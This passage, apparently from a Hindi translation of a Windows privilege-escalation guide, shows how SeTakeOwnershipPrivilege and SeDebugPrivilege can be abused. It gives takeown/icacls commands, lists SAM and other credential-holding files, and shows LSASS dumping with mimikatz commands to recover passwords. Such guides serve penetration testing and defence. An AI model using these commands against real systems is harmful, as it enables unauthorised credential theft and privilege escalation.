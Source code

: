 ```python
reg.SetValueEx(key, "Type", 0, reg.REG_DWORD, 0x00000001)
reg.CloseKey(key)
```
More ways to abuse this privilege in [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege)

### SeTakeOwnershipPrivilege

यह **SeRestorePrivilege** के समान है। इसका मुख्य कार्य एक प्रक्रिया को **एक ऑब्जेक्ट का स्वामित्व ग्रहण करने** की अनुमति देना है, जो WRITE_OWNER एक्सेस अधिकारों के प्रावधान के माध्यम से स्पष्ट विवेकाधीन पहुंच की आवश्यकता को दरकिनार करता है। प्रक्रिया में पहले लिखने के उद्देश्यों के लिए इच्छित रजिस्ट्री कुंजी का स्वामित्व सुरक्षित करना शामिल है, फिर लिखने के संचालन को सक्षम करने के लिए DACL को बदलना शामिल है।
```bash
takeown /f 'C:\some\file.txt' #Now the file is owned by you
icacls 'C:\some\file.txt' /grant <your_username>:F #Now you have full access
# Use this with files that might contain credentials such as
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
c:\inetpub\wwwwroot\web.config
```
### SeDebugPrivilege

यह विशेषाधिकार **अन्य प्रक्रियाओं को डिबग करने** की अनुमति देता है, जिसमें मेमोरी में पढ़ने और लिखने की क्षमता शामिल है। मेमोरी इंजेक्शन के लिए विभिन्न रणनीतियाँ, जो अधिकांश एंटीवायरस और होस्ट घुसपैठ रोकथाम समाधानों को चकमा देने में सक्षम हैं, इस विशेषाधिकार के साथ लागू की जा सकती हैं।

#### Dump memory

आप [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) का उपयोग [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) से **एक प्रक्रिया की मेमोरी कैप्चर करने** के लिए कर सकते हैं। विशेष रूप से, यह **स्थानीय सुरक्षा प्राधिकरण उपप्रणाली सेवा ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service))** प्रक्रिया पर लागू हो सकता है, जो एक उपयोगकर्ता के सफलतापूर्वक सिस्टम में लॉग इन करने के बाद उपयोगकर्ता क्रेडेंशियल्स को संग्रहीत करने के लिए जिम्मेदार है।

आप फिर इस डंप को mimikatz में लोड कर सकते हैं ताकि पासवर्ड प्राप्त कर सकें:
```
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
#### RCE
